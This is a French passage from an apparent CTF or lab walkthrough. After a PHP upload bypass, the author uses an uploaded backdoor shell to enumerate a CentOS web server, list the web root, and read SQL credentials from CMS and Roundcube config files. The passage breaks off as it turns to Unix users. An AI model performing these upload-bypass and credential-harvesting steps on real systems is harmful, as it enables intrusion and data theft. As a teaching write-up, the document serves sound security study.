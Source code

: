 L'extension .php passe sans problème. On en profite pour uploader une backdoor plus évoluée.  

```plain
sh-3.2$ id
uid=48(apache) gid=48(apache) groups=48(apache)
sh-3.2$ uname -a
Linux localhost.localdomain 2.6.18-92.el5 #1 SMP Tue Jun 10 18:49:47 EDT 2008 i686 i686 i386 GNU/Linux
sh-3.2$ cat /etc/*release*
cat: /etc/lsb-release.d: Is a directory
CentOS release 5.2 (Final)
```

Dans /var/www/html on trouve d'autres dossiers :

```plain
total 72
drwxr-xr-x 15 apache apache 4096 Jun 29  2009 .
drwxr-xr-x  7 root   root   4096 Jun 29  2009 ..
drwxrwsr-x  2 apache apache 4096 Jun 29  2009 actions
drwxr-sr-x  2 apache apache 4096 Jun 23  2009 conf
drwxrwsr-x  2 apache apache 4096 Jun 10  2009 css
drwxr-xr-x  2 apache apache 4096 Jun 29  2009 docs
drwxr-sr-x  2 apache apache 4096 May 30 14:02 files
drwxrwsr-x  2 apache apache 4096 Jun 22  2009 inc
-rw-rw-r--  1 apache apache 1930 Jun 24  2009 index.php
drwxrwsr-x  2 apache apache 4096 Jun 21  2009 js
drwxr-sr-x  2 apache apache 4096 Jun 22  2009 lib
drwxr-sr-x  2 apache apache 4096 Jun 23  2009 logs
lrwxrwxrwx  1 root   root     23 Jun 23  2009 mail -> roundcubemail-0.2-beta2
drwxr-xr-x 11 root   root   4096 Jun 23  2009 phpMyAdmin-3.0.0-all-languages
lrwxrwxrwx  1 root   root     30 Jun 23  2009 phpmyadmin -> phpMyAdmin-3.0.0-all-languages
drwxr-xr-x 10 apache apache 4096 Dec 16  2008 roundcubemail-0.2-beta2
drwxrwsr-x  2 apache apache 4096 Jun 15  2009 sql
drwxr-sr-x  2 apache apache 4096 Jun 23  2009 template
```

Le fichier *conf/config.ini* contient les identifiants SQL pour le CMS :

```plain
;
; This is the configuration file
;
database_host   =       localhost
database_pass   =       45kkald?8laLKD
database_user   =       cms_user
database_db     =       cms
```

Et dans *roundcubemail-0.2-beta2/config/db.inc.php* :

```plain
$rcmail_config['db_dsnw'] = 'mysql://root:mysqlpass@localhost/roundcube';
```

On découvre plusieurs utilisateurs Unix sur le système :

